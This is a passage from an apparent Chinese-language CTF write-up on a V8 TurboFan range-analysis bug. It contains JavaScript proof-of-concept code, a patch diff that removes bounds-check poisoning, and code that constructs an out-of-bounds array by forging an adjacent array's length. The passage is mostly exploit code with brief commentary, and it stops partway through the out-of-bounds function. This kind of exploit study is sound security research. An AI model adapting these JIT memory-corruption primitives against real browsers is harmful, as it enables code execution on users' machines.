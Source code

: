 ```
function opt(b) `{`
  var x = b ? -1 : -0;
  var y = b ? 2 : -0x80000000;
  var i = x - y;
  return i == -0x80000000;
`}`

for (var i=0;i&lt;0x10000;i++) `{`
   opt(true);
`}`

print(opt(false));
```

### <a class="reference-link" name="OOB%E6%95%B0%E7%BB%84%E6%9E%84%E9%80%A0"></a>OOB数组构造

我们注意到，还有一处patch

```
-          if (lowering-&gt;poisoning_level_ ==
-                  PoisoningMitigationLevel::kDontPoison &amp;&amp;
-              (index_type.IsNone() || length_type.IsNone() ||
+          if ((index_type.IsNone() || length_type.IsNone() ||
                (index_type.Min() &gt;= 0.0 &amp;&amp;
                 index_type.Max() &lt; length_type.Min()))) `{`
             // The bounds check is redundant if we already know that
             // the index is within the bounds of [0.0, length[.
             // TODO(neis): Move this into TypedOptimization?
             new_flags |= CheckBoundsFlag::kAbortOnOutOfBounds;
+            DeferReplacement(node, node-&gt;InputAt(0));
```

此处patch的作用是在一些情况下将`checkbounds`节点消除，由于高版本V8已经不会将`checkbounds`节点直接消除，因此出题者为了降低难度增加了这个patch。构造OOB的数组过程如下，其过程比较简单

```
var length_as_double = p64f(0x08042a89,0x200000);
function opt(b) `{`
  //Range(-1,-0)
  var x = b ? -1 : -0;
  //Range(-1,-0x80000000)
  var y = b ? 1 : -0x80000000;

  //Range(-1,0)
  var i = ((x - y) == -0x80000000);
  if (b) i = -1;

  //将i转换为数字，否则会进行Deoptimization
  //Range(-1,0)
  //reality:1
  i = i &gt;&gt; 0;
  //Range(0,1)
  //reality:2
  i = i + 1;
  //Range(0,2)
  //reality:4
  i = i * 2;
  //Range(1,3)
  //reality:5
  i = i + 1
  var arr = [1.1,2.2,3.3,4.4,5.5];
  var oob = [1.1,2.2];
  arr[i] = length_as_double;
  return oob;
```